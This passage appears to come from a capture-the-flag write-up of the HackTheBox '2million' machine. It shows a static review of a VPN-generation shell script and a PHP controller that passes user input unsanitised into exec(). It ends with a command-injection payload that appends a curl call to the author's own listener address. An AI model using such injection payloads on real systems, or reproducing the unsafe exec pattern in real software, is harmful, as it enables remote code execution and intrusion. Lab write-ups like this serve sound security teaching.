 ```
ssh admin@2million.htb
cd /var/www/html
```

From here, we can make a static analysis of the code.

In the `VPN` folder, we can find a shell script called `gen.sh`.

```shell
#!/bin/bash

username=$1

if [[ -n "$username" ]]; then
    cd /var/www/html/VPN

    /usr/bin/cp user/user.cnf user/"$username".cnf
    /usr/bin/sed -i "s/username/$username/g" user/"$username".cnf

    /usr/bin/openssl req -config user/"$username".cnf -newkey rsa:2048 -sha256 -nodes -out user/"$username".csr -outform PEM
    # ...
```

This script receives only one argument, which is the `username`. Let's search for code who uses this file:

```shell
grep -r "gen.sh" .  

~/tmp/html/controllers/VPNController.php: 
exec("/bin/bash /var/www/html/VPN/gen.sh $user", $output, $return_var);

~/tmp/html/controllers/VPNController.php: 
exec("/bin/bash /var/www/html/VPN/gen.sh $username", $output, $return_var);
```

Checking the `VPNController.php` :

```php
public function regenerate_user_vpn($router, $user = null) {
  if ($user != null) {
    exec("/bin/bash /var/www/html/VPN/gen.sh $user", $output, $return_var);
    // ...
```

Here it is: whenever the server calls the `regenerate_user_vpn` method, the `$user` variable is passed as is. I.e., when we send our payload to the server, the code will execute the statement (and our malicious code):

```shell
/bin/bash /var/www/html/VPN/gen.sh tandera; curl http://10.10.14.38/
```

---

[^1]: It's possible to bruteforce directories too, but all links are available through crawling and javascript analysis. If you want to **speed things up**, use the `-jc/-js-crawl` option in katana. 
[^2]: The responses are always equal to the "Invalid Code" response, even with Boolean Based techniques. 
[^3]: The `ovpn` file contains a subdomain to connect: `edge-eu-free-1.2million.htb`, on port 1337. This port is closed. 
[^4]: The `10.10.14.38` is my local address of the real HackTheBox VPN (tun0). 
[^5]: To use the web-server in your local machine, make sure to create the database and tables of the application.
